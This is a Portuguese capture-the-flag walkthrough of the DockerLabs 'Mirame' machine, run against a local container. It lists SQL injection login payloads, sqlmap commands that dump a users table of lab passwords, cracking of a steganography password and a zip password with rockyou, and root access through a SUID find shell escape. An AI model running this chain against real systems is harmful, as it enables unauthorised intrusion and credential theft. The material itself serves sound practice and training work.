MÁQUINA MIRAME

Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.

COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC --open -p- -T5 -n -Pn

Verificando as portas podemos ver que temos duas postas abertas a 22 e a 80.
22/tcp open ssh OpenSSH 9.2p1 Debian
80/tcp open http Apache httpd 2.4.61 ((Debian))
Vamos explorar na porta 80 através do ip da máquina pelo navegador http://172.17.0.2/
Veja que temos uma pagina de login na porta 80

Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html

Achamos outra pagina http://172.17.0.2/page.php

Vamos fazer uma injeção de sql injection :
usuario: admin' --
senha: ' OR '1'='1

Esse erro indica que o código no arquivo auth.php está tentando executar uma consulta SQL com uma entrada que causou um erro de sintaxe, provavelmente devido a um teste de injeção de SQL com '1'='1'. Isso sugere que o campo de entrada não está sendo corretamente sanitizado antes de ser usado na consulta SQL, o que pode indicar uma vulnerabilidade de injeção de SQL.

Vamos usar o SQLmap para explorar automaticamente essa vulnerabilidade. A ferramenta SQLmap pode detectar e explorar injeções de SQL e também obter informações sobre o banco de dados, como nomes de tabelas e colunas.
sqlmap -u "http://172.17.0.2/auth.php" --data="username=admin&password=test" --dbs
Achamos : Information_Schema, e users.

comando abaixo para ver as tabelas de users:
sqlmap -u "http://172.17.0.2/auth.php" --data="username=admin&password=test" -D users --tables
Achamos usuarios

comando abaixo para ver as colunas:
sqlmap -u "http://172.17.0.2/auth.php" --data="username=admin&password=test" -D users -T usuarios --columns
Achamos: id, password e username.

comando abaixo é para ver o para ver o: id, password e username.
sqlmap -u "http://172.17.0.2/auth.php" --data="username=admin&password=test" -D users -T usuarios -C password,username,id --dump
| password | username | id |
|---|---|---|
| chocolateadministrador | admin | 1 |
| lucas | lucas | 2 |
| soyagustin123 | agustin | 3 |
| directoriotravieso | directorio | 4 |

Vamos entrar no diretório que achamos conforme a imagem acima: /directoriotravieso
http://172.17.0.2/directoriotravieso/


Verifique Metadados da Imagem
Muitos arquivos de imagem contêm metadados que podem revelar informações úteis, como o nome do autor, data de criação, localização, entre outros detalhes. Para ver os metadados, você pode usar o comando exiftool e a steghide.
exiftool miramebien.jpg

steghide extract -sf miramebien.jpg
não conseguimos usar a ferramenta porque esta pedindo uma senha.

Vamos usar a ferramenta stegcracker

stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
Achamos a senha chocolate

Vamos usar novamente a ferramenta steghide ja temos a senha chocolate.
steghide extract -sf miramebien.jpg
Achamos um arquivo “ocultito.zip”

Vamos usar a ferramenta fcrackzip para quebrar a senha.
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt ocultito.zip
ACHAMOS A SENHA: STUPID1




USAMOS O UNZIP NOVAMENTE E VAMOS COLOCAR A SENHA STUPID1.
unzip ocultito.zip
Conseguimos ler o arquivo secret.txt, e temos :
usuário: carlos
senha: carlitos

Conseguimos entrar no ssh do usuário carlos.
ssh carlos@172.17.0.2

Vamos procurar por privilégios para ser usuário root, sudo -l nao conseguimos nada, vamos tentar com o comando find.
find / -perm -4000 2>/dev/null

Vamos para o site https://gtfobins.github.io/#, e buscar por find.

/usr/bin/find . -exec /bin/sh -p \; -quit

somos root
R10